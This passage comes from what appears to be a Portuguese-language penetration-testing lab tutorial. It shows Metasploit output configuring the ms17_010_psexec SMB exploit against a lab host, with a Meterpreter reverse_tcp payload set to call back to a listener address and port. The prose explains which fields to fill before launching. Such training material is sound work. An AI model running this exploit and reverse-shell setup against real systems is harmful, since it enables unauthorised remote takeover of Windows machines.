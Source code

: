 ```shell-session
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Certifique-se de definir suas opções de carga útil corretamente antes de executar a exploração. Quaisquer opções que tenham `Required` definido como sim será um espaço necessário para preencher. Nesse caso, precisamos garantir que nossos `RHOSTS, LHOST, and LPORT` os campos estão definidos corretamente. Para esta tentativa, aceitar os padrões para o resto é bom.

#### Validar nossas opções

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):
```
